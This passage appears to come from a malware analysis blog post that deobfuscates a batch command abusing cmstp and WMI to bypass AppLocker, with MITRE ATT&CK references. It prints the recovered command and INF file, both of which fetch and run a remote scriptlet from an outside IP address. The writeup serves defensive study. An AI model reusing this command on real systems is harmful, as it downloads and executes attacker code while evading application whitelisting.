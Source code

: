 
Looks like the automated string gave us some clues but didn't do the job very well especially in the "for" loop inside the batch script. After manually replacing some strings/variables, this `cmd` showed up:

```batch
/v /c set "UoglocMF14637=." && set "UoglocMF15608="^" && (for %l in ("[version]" "signature=$Windows NT$" "[destinationdirs]" "2D0D=01" "[defaultinstall_singleuser]" "UnRegisterOCXs=F251A5" "delfiles=2D0D" "[F251A5]" "%11%\scrObj,NI,http://209.141.61.11/update.txt" "[2D0D]" "RANDOM.inf" "[strings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "servicename=' '" "shortsvcname=' '") do @echo %~l)>"USER_APP_DATA\Microsoft\RANDOM.inf"&& start "" /MIN wmic process call create "cmstp /ns /s /su USER_APP_DATA\Microsoft\RANDOM.inf"
```

![Process Tree of running cmd](/img/malware-applocker-bypass/2.jpg "Process Tree of running cmd")

very interesting stuff already. We can see that the `cmd` contains two distinct sections. The first part creates a "RANDOM.inf" file (RANDOM is a random number generated via %random% command) and the second part starts it using WMI and `cmstp`. Let's dig deeper in the first part and see how Microsoft.inf gets generated.

![running cmstp](/img/malware-applocker-bypass/3.jpg "running cmstp")

![cmstp help](/img/malware-applocker-bypass/4.jpg "cmstp help")

Sidenote: `cmstp` is often used to bypass Applocker, [Reference](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/). MITRE ATT&CK (#T1218.003) links this technique to Cobalt Group and MuddyWater. 

![applocker bypass blog](/img/malware-applocker-bypass/5.jpg "applocker bypass blog")

Beautified version of the created `.ini` file:

```ini

[version]scrObj
2D0D=01
[defaultinstall_singleuser]
UnRegisterOCXs=F251A5
delfiles=2D0D
[F251A5]
%11%\scrObj,NI,http://209.141.61.11/update.txt
[2D0D]
RANDOM.inf
[strings]
UoglocMF5568=t
UoglocMF2085=h
UoglocMF54670=:
UoglocMF7741=s
UoglocMF92584=/
UoglocMF37180=b
UoglocMF0342=
servicename=' '
shortsvcname=' '"
```
